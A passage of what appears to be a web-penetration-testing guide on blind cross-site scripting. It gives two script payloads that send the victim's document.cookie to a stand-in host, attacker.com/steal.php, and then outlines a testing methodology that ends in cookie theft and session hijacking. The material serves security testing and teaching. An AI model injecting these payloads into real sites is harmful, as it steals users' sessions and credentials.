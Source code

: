 ### Blind XSS

#### 1. Delayed Execution
```javascript
<script>
setTimeout(function() {
    var xhr = new XMLHttpRequest();
    xhr.open('GET', 'http://attacker.com/steal.php?cookie=' + document.cookie);
    xhr.send();
}, 5000);
</script>
```

#### 2. Conditional Execution
```javascript
<script>
if (document.location.hostname === 'target.com') {
    var xhr = new XMLHttpRequest();
    xhr.open('GET', 'http://attacker.com/steal.php?cookie=' + document.cookie);
    xhr.send();
}
</script>
```

## Testing Methodology {#testing-methodology}

### Phase 1: Reconnaissance
1. **Identify Input Points**
   - URL parameters
   - POST data
   - HTTP headers
   - Cookies
   - File uploads

2. **Test Basic Injection**
   - Simple script tags
   - Event handlers
   - JavaScript protocol

### Phase 2: Vulnerability Assessment
1. **Automated Scanning**
   - Burp Suite Scanner
   - OWASP ZAP
   - Custom XSS scanners

2. **Manual Testing**
   - Context analysis
   - Filter testing
   - WAF bypass

### Phase 3: Exploitation
1. **Proof of Concept**
   - Simple alert boxes
   - Cookie theft
   - Session hijacking
